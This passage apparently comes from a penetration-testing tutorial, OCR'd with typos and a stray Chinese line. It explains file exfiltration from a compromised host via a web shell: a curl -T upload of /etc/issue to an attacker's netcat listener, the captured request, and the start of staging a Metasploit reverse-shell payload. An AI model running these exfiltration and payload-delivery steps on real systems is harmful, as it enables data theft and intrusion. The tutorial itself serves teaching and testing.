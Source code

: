 We will receive the base64 URL. Let's decode it and see what contains.

```
echo "dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK" | base64 -d
```

That's it, spaces can be safely matigated using the base64 command.

In another examples, we will use `curl` to transfer files between systems.

```
curl --help | grep file
```

```
└─# curl --help | grep file
 -o, --output <file>        Write to file instead of stdout
 -O, --remote-name          Write output to a file named as the remote file
 -T, --upload-file <file>   Transfer local FILE to destination
```

curl includes command line option called `-T` that allows to transfer file remotely using the PUT method. This way, we can read various files just by receiving them on the netcat listener.

在shell.php上执行：

```
curl http://192.168.139.130:53/file -T /etc/issue
```

```
nc -lvp 53
listening on [any] 53 ...
connect to [192.168.139.130] from 0xluk3 [192.168.139.130] 45792
PUT /file HTTP/1.1
Host: 192.168.139.130:53
User-Agent: curl/7.63.0
Accept: */*
Content-Length: 30
Expect: 100-continue

Kali GUN/Linux Rolling \n \l
```

The file content was sent remotely to the attacker.

```
cat /etc/issue
Kali GNU/Linux Rolling \n \l
```

But in most cases, you will be interested in tranfering files under the victim machine. For example, a Metasploit generate the reverse shell payload. To do so, we need three factors:

* an HTTP server on out machine
* a file download utility on the remote machine
* and a writable localtion on the remote machine


```
cd /var/www/html
ls
script.php server shell.php
cd server/
```
